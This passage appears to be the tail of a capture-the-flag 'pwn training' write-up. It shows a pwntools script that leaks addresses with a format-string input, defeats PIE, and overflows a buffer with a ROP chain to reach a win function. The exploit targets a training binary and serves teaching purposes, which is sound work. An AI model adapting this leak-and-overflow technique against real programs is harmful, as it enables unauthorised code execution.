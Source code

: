 ```py
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start()

p.recvline()
p.sendline("%p "*(27))
l = p.recvline().split()

leaked_main = int(l[-1], 16)
win_func = leaked_main - (0x555555555222-0x5555555551c8)
binary_start = leaked_main - (0x555555555222-0x555555554000)

log.info("Leaked main address: " + str(l[-1]))
log.info("win function: "+ str(win_func))
log.info("Binary Start: "+ str(leaked_main - (0x555555555222-0x555555554000)))

p.sendline(b"A"*0x60 + b"B"*8 + p64(binary_start+0x00000000000012eb) + p64(0xdeadbeefcafebabe) + p64(win_func))

p.interactive()     
```

Hope you guys enjoyed the pwn training 2 more amazing challenges are yet to come !! Happy hacking.